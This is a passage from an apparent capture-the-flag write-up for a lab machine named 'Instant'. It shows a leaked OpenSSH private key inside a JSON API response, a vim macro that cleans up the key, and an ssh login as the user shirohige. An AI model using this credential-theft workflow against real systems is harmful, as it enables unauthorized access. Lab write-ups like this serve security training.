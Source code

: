```
    "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\n",
    "-----END OPENSSH PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```

I saved the key to a file and cleaned it up. Below is the vim macro I used:

```
:%s/    "//g|%s/"//g|%s/,//g|%s/\\n//g
```

Now we can authenticate as ```shirohige```.

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa shirohige@instant.htb   
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```